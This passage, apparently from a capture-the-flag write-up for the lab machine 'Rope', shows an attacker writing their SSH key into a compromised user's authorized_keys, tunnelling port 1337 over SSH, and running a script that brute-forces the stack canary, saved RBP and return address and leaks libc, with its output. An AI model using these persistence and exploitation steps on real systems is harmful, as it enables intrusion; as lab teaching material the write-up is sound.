 #### Shell Remotely

In order to talk to the service running on Rope, I need access from localhost. I could upload my script and try to run it there, but it’ll be easier to use my current access to enable ssh access since ssh is running. I’ll write my public key into `authorized_keys`:

```

john@rope:/home/john$ mkdir .ssh
john@rope:/home/john$ cd .ssh
john@rope:/home/john/.ssh$ echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC0SwpwZ7rgMtCZYzkDtFJvQZO20N+8DmYxOix+PgL6VQW/9wZC3xnKK1zeAelMYtv/O38GXE2ghUH7z6ayVmTMkjGqt18mhsEpCt0BbonGRC0IHoBsV5QBVNin+x1soVdECT1Tr45bNnTnkZXIgSyDumc+2Ix6A1wiiC5RbI3SrxJ7nL0lRlhjdoAH6KCb4dwhX+Jos0VudHRreE01+0YE0Qb7Sd0eA5Cq7UtjgiW6VyXcmWH7aQdVZlUanrs5wdwWYeVCxY/XfFCCDmHZw+8W5INudM2t7on7bl/rYnhAExOr14/1s7LfYAfV8B6VNPPX+IOzOcT4aYQC3rRDiG5P root@kali' > authorized_keys

```

Now ssh in with `-L 1337:localhost:1337` will allow me to hit 1337 on my local box and it will forward to 1337 on Rope.

```

root@kali# ssh -i ~/id_rsa_generated john@10.10.10.148 -L 1337:localhost:1337
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-52-generic x86_64)
 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Aug 31 20:56:07 UTC 2019

  System load:  0.13               Processes:            172
  Usage of /:   28.3% of 14.70GB   Users logged in:      0
  Memory usage: 9%                 IP address for ens33: 10.10.10.148
  Swap usage:   0%

152 packages can be updated.
72 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Aug 31 20:55:56 2019 from 10.10.14.5
john@rope:~$

```

Now I can run for the remote target, with the same IP/port (because 127.0.0.1:1337 now points to the SSH tunnel, not a local copy of the server), just different offsets. It took just under 15 minutes to run, but it results in a shell:

```

root@kali# python3 rope_root-remote3.py remote
[*] Starting brute force
[+] Brute forcing Canary: Finished in 320.63 seconds
[+] Canary:             0x0d29f2c7dd531f00
[+] Brute forcing RBP: Finished in 335.70 seconds
[+] RBP:                0x00007ffe4683ca60
[+] Brute forcing Return Address: Finished in 238.71 seconds
[+] Return Address:     0x000055a54dd75562
[*] Sending exploit to leak libc write address
[+] Opening connection to 127.0.0.1 on port 1337: Done
[+] libc write address: 0x00007fea834b9140
[*] Closed connection to 127.0.0.1 port 1337
[+] Calculated addresses:
    libc_base:          0x00007fea833a9000
```